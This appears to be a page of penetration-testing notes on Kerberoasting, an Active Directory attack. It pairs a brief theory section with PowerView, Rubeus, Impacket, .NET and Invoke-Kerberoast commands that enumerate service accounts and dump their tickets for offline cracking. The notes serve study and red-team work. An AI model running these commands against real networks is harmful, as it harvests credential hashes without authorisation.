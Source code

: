 # Kerberoasting

## Theory

The Ticket-Grating Service(TGS) has a server portion which is encrypted with the password hash of service account. This makes possible to request the ticket and save it offline to bruteforce it.&#x20;

This is also possible because (non-machine) service account passwords are not frequently changed.

<figure><img src="../../../.gitbook/assets/Pasted image 20240415190001.png" alt=""><figcaption></figcaption></figure>

## Abuse

### Enumeration

Can be done with Powerview

```powershell
Get-DomainUser -SPN
```

or with Rubeus

```powershell
./Rubeus.exe kerberoast /stats /rc4opsec
```

### Exploitation

A ticket neeed to be requested and saved offline

{% tabs %}
{% tab title="Linux" %}
```bash
impacket-GetUserSPNs <$Name Machine>/<$User>:<$Pass> -request
```
{% endtab %}

{% tab title="Windows" %}
#### Using Rubeus

{% code overflow="wrap" %}
```powershell
./Rubeus.exe kerberoast /user:<$User> /simple /rc4opsec /outfile:hash.txt
```
{% endcode %}

#### Using .Net classes

{% code overflow="wrap" %}
```powershell
Add-Type -AssemblyNAme System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurity Token -ArgumentList "<$Domain>/<$Account>"
```
{% endcode %}

#### Using Invoke-Kerberoast

from BC Empire (https://github.com/BC-SECURITY/Empire)

{% code overflow="wrap" %}
```powershell
. .\Invoke-Kerberoast.ps1 
Invoke-Kerberoast -Identity <$Account>
```
{% endcode %}
{% endtab %}
{% endtabs %}

and then crack it
